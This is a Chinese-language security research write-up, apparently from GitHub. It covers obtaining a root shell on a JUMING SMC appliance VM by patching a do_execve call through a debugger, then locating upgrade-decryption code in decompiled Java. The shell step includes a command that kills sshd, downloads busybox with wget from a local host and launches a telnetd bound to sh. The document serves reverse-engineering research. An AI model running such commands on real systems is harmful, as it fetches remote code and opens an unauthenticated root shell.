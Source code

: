 <img src="./Images/image-20240428171231970.png" alt="image-20240428171231970" style="zoom:80%;" />

### 2.2 获取虚拟机的root shell

获取虚拟机root shell的参考文章：https://zzcentury.github.io/blogs/GetRootShell (通过虚拟机调试获取Root Shell)<br>
在内核函数do_execve下条件断点，匹配参数为/bin/sh -c xxx的函数调用：<br>

```
break *0xffffffff811a33e0 if *(long long*)(*(long long*)($rsi))==0x68732f6e69622f
```

断点断下后，设置命令为：<br>

```
set {char [116]} 0x0000000001145a10 = "sleep 10;killall -9 sshd;cd /tmp; wget 192.168.0.1:8000/busybox -O telnetd;chmod +x telnetd;./telnetd -p 22 -l sh &"
```

等待一会后，就可以通过执行telnet 192.168.0.100 22命令获取虚拟机的root shell。<br>

### 2.3 定位解密代码

首先定位到<br>
JUMING-SMC-class-2.0.jar:com/juminfo/smc/modules/systemManage/action/UpgradeAction.class 文件。<br>
分析addSysUpgradeLog函数。<br>

```
   @Log(info = "system.upgrade")
    @Auth
    public void addSysUpgradeLog() throws Exception {
        File upgradeZipFile = null;
        ZipFile zfile = null;
        try {
            try {
                if (Constant.getUpgradeDate().getTime() + 3600000 <= new Date().getTime()) {
                    SysParam sysParam = this.f1867.loadParameter("UpgradeDoing");
                    sysParam.setParamValue("0");
                    this.f1867.modifySysParam(sysParam);
                    Constant.setUPGRADE_DATE(new Date());
                }
                JSONObject obj = new JSONObject();
                if (this.f1870 != null) {
                    String upgradeDoing = this.f1867.getParameterValueByName("UpgradeDoing");
                    String upgradeFlag = this.f1867.getParameterValueByName("ScloudUpgradeFlag");
                    if (this.f1870.length() > 1073741824) {
                        obj.put("res", "10002");
```